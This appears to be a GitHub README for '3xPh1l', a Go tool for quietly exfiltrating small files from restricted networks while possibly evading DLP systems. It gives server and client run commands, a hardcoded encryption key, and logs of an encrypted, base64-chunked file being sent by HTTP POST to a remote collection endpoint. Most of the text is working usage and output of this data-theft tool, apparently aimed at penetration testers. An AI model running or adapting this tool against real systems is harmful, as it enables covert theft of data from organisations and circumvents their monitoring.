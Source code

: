 3xPh1l is a really simple file exfiltration tool, designed to be used in restricted client envs where you might need to exfiltrate small amounts of data. Potentially avoiding DLP systems.

Currently the tool encrypts symetrically, base 64 encodes the data and then uses HTTP Post requests to send the data. 

The long term goal is to support DNS as well as HTTPS, but this works for now. 

### Known Bugs ###
The tool struggles with files bigger than say, an ssh key file. Therefore it's kind of useless for any sizeable exfiltration. However, I am working on fixing this.

Currently usage:

```sh
go run exfilserver.go
key to encrypt/decrypt : 7ac9acc458e5db743725a559a470b7dcc37c3435795829ced16cc1f26cb5ab73
```

Then go to your client (make sure it's pointed at your URL (you can modify this in the code)

```sh
notroot@consultant-rs:~/tools/b64exfil/Client Side$ go run main.go test.txt 7ac9acc458e5db743725a559a470b7dcc37c3435795829ced16cc1f26cb5ab73
encoded plaintext:
hello my name is Phil
And I am bad at chunking files
but let's keep giving this
a go
shall we


encrypted text
904d3b85ec9e87d8a28d91d8134bc6f87bd68effceeee20233b291b5fae3356f0b188b8176c7400fc1af27328ab7d9d416fa7a40bb4ac1650de19504d5d05c6a3ff3a02bb86db71340afce9a4e254ede3e2bc645e493a661f82f56a6fd9f508313986c3cdc5ba0dabba618094483c57f6e62e5b3536ae87503b77a
ENCODED: OTA0ZDNiODVlYzllODdkOGEyOGQ5MWQ4MTM0YmM2Zjg3YmQ2OGVmZmNlZWVlMjAyMzNiMjkxYjVmYWUzMzU2ZjBiMTg4YjgxNzZjNzQwMGZjMWFmMjczMjhhYjdkOWQ0MTZmYTdhNDBiYjRhYzE2NTBkZTE5NTA0ZDVkMDVjNmEzZmYzYTAyYmI4NmRiNzEzNDBhZmNlOWE0ZTI1NGVkZTNlMmJjNjQ1ZTQ5M2E2NjFmODJmNTZhNmZkOWY1MDgzMTM5ODZjM2NkYzViYTBkYWJiYTYxODA5NDQ4M2M1N2Y2ZTYyZTViMzUzNmFlODc1MDNiNzdh
6
Sending Chunk 0:
OTA0ZDNiODVlYzllODdkOGEyOGQ5MWQ4MTM0YmM2Zjg3YmQ2OGVmZmNlZWVl
http://website/delivery
Sending Chunk 1:
MjAyMzNiMjkxYjVmYWUzMzU2ZjBiMTg4YjgxNzZjNzQwMGZjMWFmMjczMjhh
http://website/delivery
Sending Chunk 2:
YjdkOWQ0MTZmYTdhNDBiYjRhYzE2NTBkZTE5NTA0ZDVkMDVjNmEzZmYzYTAy
http://website/delivery
Sending Chunk 3:
YmI4NmRiNzEzNDBhZmNlOWE0ZTI1NGVkZTNlMmJjNjQ1ZTQ5M2E2NjFmODJm
http://website/delivery
Sending Chunk 4:
NTZhNmZkOWY1MDgzMTM5ODZjM2NkYzViYTBkYWJiYTYxODA5NDQ4M2M1N2Y2
http://website/delivery
Sending Chunk 5:
ZTYyZTViMzUzNmFlODc1MDNiNzdh
http://website/delivery
All chunks sent, sent to /done
328
```
Your server should then have printed the text to it's output:

```sh
Recieved Parcel 0 : OTA0ZDNiODVlYzllODdkOGEyOGQ5MWQ4MTM0YmM2Zjg3YmQ2OGVmZmNlZWVl
Recieved Parcel 1 : MjAyMzNiMjkxYjVmYWUzMzU2ZjBiMTg4YjgxNzZjNzQwMGZjMWFmMjczMjhh
Recieved Parcel 2 : YjdkOWQ0MTZmYTdhNDBiYjRhYzE2NTBkZTE5NTA0ZDVkMDVjNmEzZmYzYTAy
Recieved Parcel 3 : YmI4NmRiNzEzNDBhZmNlOWE0ZTI1NGVkZTNlMmJjNjQ1ZTQ5M2E2NjFmODJm
Recieved Parcel 4 : NTZhNmZkOWY1MDgzMTM5ODZjM2NkYzViYTBkYWJiYTYxODA5NDQ4M2M1N2Y2
Recieved Parcel 5 : ZTYyZTViMzUzNmFlODc1MDNiNzdh
Base64 Encoded Output:
[OTA0ZDNiODVlYzllODdkOGEyOGQ5MWQ4MTM0YmM2Zjg3YmQ2OGVmZmNlZWVl MjAyMzNiMjkxYjVmYWUzMzU2ZjBiMTg4YjgxNzZjNzQwMGZjMWFmMjczMjhh YjdkOWQ0MTZmYTdhNDBiYjRhYzE2NTBkZTE5NTA0ZDVkMDVjNmEzZmYzYTAy YmI4NmRiNzEzNDBhZmNlOWE0ZTI1NGVkZTNlMmJjNjQ1ZTQ5M2E2NjFmODJm NTZhNmZkOWY1MDgzMTM5ODZjM2NkYzViYTBkYWJiYTYxODA5NDQ4M2M1N2Y2 ZTYyZTViMzUzNmFlODc1MDNiNzdh]
OTA0ZDNiODVlYzllODdkOGEyOGQ5MWQ4MTM0YmM2Zjg3YmQ2OGVmZmNlZWVlMjAyMzNiMjkxYjVmYWUzMzU2ZjBiMTg4YjgxNzZjNzQwMGZjMWFmMjczMjhhYjdkOWQ0MTZmYTdhNDBiYjRhYzE2NTBkZTE5NTA0ZDVkMDVjNmEzZmYzYTAyYmI4NmRiNzEzNDBhZmNlOWE0ZTI1NGVkZTNlMmJjNjQ1ZTQ5M2E2NjFmODJmNTZhNmZkOWY1MDgzMTM5ODZjM2NkYzViYTBkYWJiYTYxODA5NDQ4M2M1N2Y2ZTYyZTViMzUzNmFlODc1MDNiNzdh
6
Decoded String
904d3b85ec9e87d8a28d91d8134bc6f87bd68effceeee20233b291b5fae3356f0b188b8176c7400fc1af27328ab7d9d416fa7a40bb4ac1650de19504d5d05c6a3ff3a02bb86db71340afce9a4e254ede3e2bc645e493a661f82f56a6fd9f508313986c3cdc5ba0dabba618094483c57f6e62e5b3536ae87503b77a
hello my name is Phil
And I am bad at chunking files
but let's keep giving this
a go
shall we
```
